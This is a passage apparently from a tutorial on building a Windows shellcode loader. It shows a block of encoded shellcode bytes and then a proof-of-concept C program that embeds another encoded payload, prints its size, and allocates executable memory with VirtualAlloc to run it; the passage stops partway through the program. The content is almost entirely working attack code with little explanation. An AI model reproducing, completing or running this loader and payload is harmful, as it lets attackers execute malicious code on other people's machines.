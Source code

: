 ```
"\xfb\x3a\x93\x76\x6b\xab\x25\x22\xeb\x24\x51\x3f\xa3\x76"
"\x3d\xe1\x54\xcd\x26\x7f\xf8\xa1\xe9\xe1\xaa\xd2\x55\x0f"
"\xba\xdd\x50\x69\x07\x45\xd9\xf7\x7e\xd4\x60\x68\x93\xe4"
"\x6d\xcf\x4d\xd9\x62\xe5\x8f\x0c\x5d\x07\xa2\xe0\xb7\xf1"
"\x95\x40\x93\x7e\x57\xdc\x60\x79\xcd\x3a\x59\xb5\x7f\xdd"
"\x5f\xed\x20\x44\x04\x77\x72\x45\x5f\xe8\x20\x00\x90\x76"
"\x72\x45\x20\xf1\xea\x5c\x46\x67\x29\xd4\x39\xe8\xf2\x45"
"\x42\x76\xf0\x79\x41\xe8\xf9\xfb\xf8\x66\x32\xcc\x3b\x97"
"\xe3\x8f\x0a\xd7\x3a\x6a\x9e\x56\xf6\x3a\x50\xb3\xfe\xbf"
"\x60\xa9\xab\x45\xa2\x72\x04\xb3\x66\x56\x7e\x4d\xdf\xff"
"\x73\x95\x61\xa9\x95\x4c\x95\xab\x7d\x94\x61\xa9\x95\x48"
"\x95\xbb\x6c\x94\x61\xa9\xe3\x35\xd1\x7f\xc9\xd0\xe2\xff"
"\xac\xfb\xcd\x76\x42\x5c\x20\x13\x5b\xb1\xba\x68\x8c\x40"
"\x29\xcc\xc7\x68\x77\x12\x53\xf3\x13\xc6\xc6\x24\x55\x6d"
"\x35\xb4\x61\xe4\xce\x77\x6b\x5f\x14\xf0\x23\xc6\xd3\x04"
"\x6d\x4d\x16\xe7\x52\x9b\x85\x60\x74\x52\x73\x95\x61\xa9"
"\xab\x04\x18";
```

### POC code

Now we can copy and paste the previously generated shellcode into our POC C code:

```
#include <stdio.h>
#include <windows.h>

int main()
{
	unsigned char shellcode[] =
		"\x48\x31\xc9\x48\x81\xe9\xd7\xff\xff\xff\x48\x8d\x05\xef"
		"\xff\xff\xff\x48\xbb\x53\xff\xa0\x36\xf2\xd0\x80\x91\x48"
		"\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xaf\xb7\x21"
		"\xd2\x02\x2f\x7f\x6e\xbb\x2f\xa0\x36\xf2\x91\xd1\xd0\x03"
		"\xad\xf1\x60\xba\xe1\x52\xf4\x1b\x74\xf2\x56\xcc\x98\x0b"
		"\xc3\x4b\xc1\xe8\xbd\xa0\xf0\xbe\xd9\xd8\x8d\xf0\x08\xba"
		"\xdf\x37\xdb\x19\xb2\x91\xff\xba\xe1\x40\x3d\x6f\x9e\xdc"
		"\x34\xde\xf0\xc1\x50\x9a\xf2\xe1\x37\x33\x32\x6d\xc3\x12"
		"\xae\x9e\x7e\x79\x82\xa0\xaf\xd8\xbd\x9c\x7e\xf3\x00\xbe"
		"\x1a\xd3\x77\xa0\x36\xf2\x98\x05\x51\x27\x90\xe8\x37\x22"
		"\x80\xbe\x1a\x1b\xe7\x9e\x72\x79\x90\xa0\xd8\x52\x2f\x43"
		"\x6a\xba\x2f\x49\xaf\x12\x74\x94\xbe\xba\xd1\x56\xdc\x62"
		"\x36\xe8\x07\x32\x7c\xc1\x50\x9a\xf2\xe1\x37\x33\xe8\x60"
		"\xe4\xa2\xc1\xec\x35\xbe\xf4\x88\xd4\x6a\x2e\xd5\xe0\xaa"
		"\xee\xc4\x1a\x13\xdb\xe9\x37\x22\xb6\xbe\xd0\xd8\xf3\xe8"
		"\x08\xb6\x5b\xc0\x8d\x1a\xfe\x70\x08\xb3\x5b\x84\x19\x1b"
		"\xfe\x70\x77\xaa\x91\xd8\xcf\x0a\xa5\xe1\x6e\xb3\x89\xc1"
		"\xcb\x1b\x7c\x4c\x16\xb3\x82\x7f\x71\x0b\xbe\xf9\x6c\xcc"
		"\x98\x0b\x83\xba\xb6\x5f\xc9\x0d\x8d\xbe\xd9\xde\x72\x8a"
		"\x37\xf2\xd0\xc1\x2b\x1f\x88\x86\x31\x0d\x05\xc9\x56\x92"
		"\xff\xa0\x36\xf2\xee\xc8\x1c\xc6\xf1\xa1\x36\xf2\xee\xcc"
		"\x1c\xd6\xe0\xa1\x36\xf2\x98\xb1\x58\x12\x45\xe5\xb5\xa4"
		"\xd7\x7f\x44\x1b\xce\x69\x77\x48\x20\x35\x33\x05\x00\x75"
		"\x7e\x97\xbc\xec\xfe\x7f\xdf\xc6\x44\x9d\xbd\xa0\xdc\x00"
		"\xb9\x81\x36\xbf\xb5\xf3\xe2\x32\x98\xc5\x74\x9d\xa8\x80"
		"\xe4\x20\x9a\xd2\x05\xc0\xfe\xe4\xfd\x3f\xff\xa0\x36\xf2"
		"\xd0\x80\x91";

	printf("payload size: %i", sizeof shellcode - 1);

	LPVOID lpAlloc = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

	if (lpAlloc == NULL)
	{
```